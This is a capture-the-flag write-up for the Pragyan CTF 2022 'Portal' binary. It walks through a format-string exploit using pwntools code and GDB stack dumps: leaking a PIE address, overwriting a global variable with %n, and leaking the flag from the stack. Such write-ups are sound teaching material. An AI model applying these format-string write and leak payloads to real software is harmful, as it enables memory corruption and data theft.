







# Pragyan CTF 2022 - Portal

Origin challenge link: https://ctf.pragyan.org/

You can also download challenge file in my repo: [portal.zip](portal.zip)

There will be 1 file in zip:

- load

Download, unzip the file and we start!

# 1. Find bug

First, we will use `file` to check for basic information:

```
$ file load
load: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1128f7b9cbf10c5208e4624339366761018789ca, for GNU/Linux 3.2.0, not stripped
```

This is a 64-bit file without being stripped. Next, we will use `checksec` to check for all defences of file:

```
$ checksec load
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Wow, all the defences are on. Finally, we will decompile the challenge file with ghidra to get the flow of program.

The main() function isn't so interesting. It just take input and then compare to execute correspond function.

In see_balance() function, we can see that there is a **Format string** bug at printf:



At init_pack(), it check if the global var `b` is equal to 249 or not. If it equal then jump into upgrade_pack() which seems to read a file called `flag_maybe` and then saves it on stack. 

I have just find to there and I got flag so the rest will be ignored =)))

# 2. Brainstorming

With the **Format string** bug, we can change the data of global var `b` to 249 and the flag will be read and stored on stack. And we will use again this bug to leak the flag out.

To change `b`, we need the binary base address because `PIE enabled`. After that, everything would be easy.

- Summary:
  1. Leak binary address
  2. Change `b`
  3. Get flag

# 3. Exploit

### Stage 1: Leak binary address

First, we will check at what `%p` will we get the start of our input with this code:

```
p.sendlineafter(b'2) Upgrade Pack', b'1')
payload = b'AAAAAAAA%p%p%p%p%p%p%p%p%p%p%p%p'
p.sendlineafter(b'Wanna upgrade pack?', payload)
p.recvline()
```

Run to it and we get the start of our input is at `%6$p`



Now, let's analize the stack when we're at the printf which has **Format string** bug:

```
gef➤  x/20xg $rsp
0x7ffe2e91e320:	0x3931257024383125	0x0a70243532257024
0x7ffe2e91e330:	0x0000560cb2743000	0x00007f53692944a0
0x7ffe2e91e340:	0x0000000000000000	0x00007f536913b013
0x7ffe2e91e350:	0x000000000000000f	0x00007f53692936a0
0x7ffe2e91e360:	0x0000560cb274117f	0x00007f5369292980
0x7ffe2e91e370:	0x00007f53692944a0	0x00007f536912c546
0x7ffe2e91e380:	0x0000560cb27407e0	0x289158d542ab4f00
0x7ffe2e91e390:	0x00007ffe2e91e3b0	0x0000560cb2740766
0x7ffe2e91e3a0:	0x000000012e91e4a0	0x289158d542ab4f00
0x7ffe2e91e3b0:	0x0000000000000000	0x00007f53690ce0b3

gef➤  x/xw 0x0000560cb27407e0
0x560cb27407e0 <__libc_csu_init>:	0xfa1e0ff3
```

We can see that at address `0x7ffe2e91e380` of stack contain the address of `__libc_csu_init`, so we will leak that address and calculate the base address of binary.

The offset for **Format string** bug is `6 + 12 = 18` so at `%18$p`, we will get address of `__libc_csu_init`. Code will changed to this:

```
p.sendlineafter(b'2) Upgrade Pack', b'1')
payload = b'%18$p'
p.sendlineafter(b'Wanna upgrade pack?', payload)
p.recvline()

# Get address of __libc_csu_init
__libc_csu_init_addr = int(p.recvline()[:-1].split(b'0x')[1], 16)
log.success("__libc_csu_init: " + hex(__libc_csu_init_addr))

# Calculate binary base address
exe.address = __libc_csu_init_addr - exe.sym['__libc_csu_init']
log.success("Exe base: " + hex(exe.address))
```

Run that and we get the address of `__libc_csu_init` also binary base address:



Now we will move to next stage: Change `b`!

### Stage 2: Change `b`

With the binary base address, we can get the address of `b` easily. As we found that the start of our input is at `%6$p` and because this is 64 bit file so we need to put the address at the end (if we put address of `b` at the begining with null byte in the address, printf will stop execute that and leave `b` remain)

Let's check if we input full full 100 bytes in see_balance, how the stack look like with this code:

```
p.sendlineafter(b'2) Upgrade Pack', b'1')
payload = cyclic(100)
p.sendlineafter(b'Wanna upgrade pack?', payload)
p.recvline()
```

Run this and we get the stack:

```
gef➤  x/20xg $rsp
0x7ffda58eb950:	0x6161616261616161	0x6161616461616163
0x7ffda58eb960:	0x6161616661616165	0x6161616861616167
0x7ffda58eb970:	0x6161616a61616169	0x6161616c6161616b
0x7ffda58eb980:	0x6161616e6161616d	0x616161706161616f
0x7ffda58eb990:	0x6161617261616171	0x6161617461616173
0x7ffda58eb9a0:	0x6161617661616175	0x6161617861616177
0x7ffda58eb9b0:	0x0000563a00616179	0xd5397c62369cd900
0x7ffda58eb9c0:	0x00007ffda58eb9e0	0x0000563aaaabf766
0x7ffda58eb9d0:	0x00000001a58ebad0	0xd5397c62369cd900
0x7ffda58eb9e0:	0x0000000000000000	0x00007fdd4554d0b3
```

So we will want to put the address of `b` to the end of input at address `0x7ffda58eb9a0 + 0x8`. Just by counting and we get the format string offset is `6 + 11 = 17`.

Remember this, we shouldn't use `%<n>$p` for writing so we will use the standard form. The following code will be the same as `%17$p`:

```
# Each '%' will count 1
payload = b'%c'*15
payload += b'%c%p'
```

So first, we will try to put the address of `b` into that position:

```
payload = b'%c'*15
payload += b'%c%p'               # We will use this to change b
payload = payload.ljust(0x58)    # Padding
payload += p64(exe.sym['b'])
```

And we want to write 249 bytes to `b` so at second line of above payload, we will change to this:

```
payload = b'%c'*15
payload += '%{}c%n'.format(249 - 15).encode()    # We will use this to change b
payload = payload.ljust(0x58)                    # Padding
payload += p64(exe.sym['b'])
```

Why I write `249 - 15`, it is because it will write all byte before `%n` in to the position of `b` (use `%p` will give us correct address of `b` so use `%n` will write number of byte before it to `b`).

The full code for this stage is as below:

```
p.sendlineafter(b'2) Upgrade Pack', b'1')

payload = b'%c'*15
payload += '%{}c%n'.format(249-15).encode()    # We will use this to change b
payload = payload.ljust(0x58, b'P')             # Padding
payload += p64(exe.sym['b'])
p.sendlineafter(b'Wanna upgrade pack?', payload)
```

Running it and check in GDB, we can see that `b` is change to 249:



It works. Let's move on final stage: Get flag!

### Stage 3: Get flag

Now we just choose the second option `Upgrade Pack` after we have succeeded the stage 2 and run until the flag is read to see how the flag is stored on stack (remember to create fake flag to test):

```
0x00007ffebbd18650│+0x0000: 0x0000555c0a0092a0  →  0x00000000fbad2488	 ← $rsp
0x00007ffebbd18658│+0x0008: 0x00007ffebbd18714  →  0x6675aa0000000002
0x00007ffebbd18660│+0x0010: "This_Is_Fake_FlagXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX[...]"	 ← $rax, $r8
0x00007ffebbd18668│+0x0018: "Fake_FlagXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX[...]"
0x00007ffebbd18670│+0x0020: "gXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX[...]"
0x00007ffebbd18678│+0x0028: "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX[...]"
0x00007ffebbd18680│+0x0030: "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX[...]"
0x00007ffebbd18688│+0x0038: "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX[...]"
```

We can see that flag is written on stack very close to rsp. So we just simply use **format string** of option 1 to leak the flag:

```
p.sendlineafter(b'2) Upgrade Pack', b'2')
payload = b'%p'*20
p.sendlineafter(b'Enter coupon code:', payload)
```

I had tested with `%s` but not successful so I use `%p` instead. Run until now and we can get the local flag:



So now just run on server and we get the flag in hex, just recover it and we get the flag.

Full code: [solve.py](solve.py)

# 4. Get flag



I wrote this scrip to convert flag in hex format to text as below:

<details>
<summary>Convert.py</summary>
<p>

```
#!/usr/bin/python

while True:
	hx = input('> ')
	if '0x' in hx:
		hx = hx.replace('0x', '')
	tx = ''
	for i in range(0, len(hx), 2):
		tx += chr(int(hx[i:i+2], 16))
	print(tx[::-1])
```

</p>
</details>



Flag is `p_ctf{W3ll_1t_W4s_3aSy_0n1y}`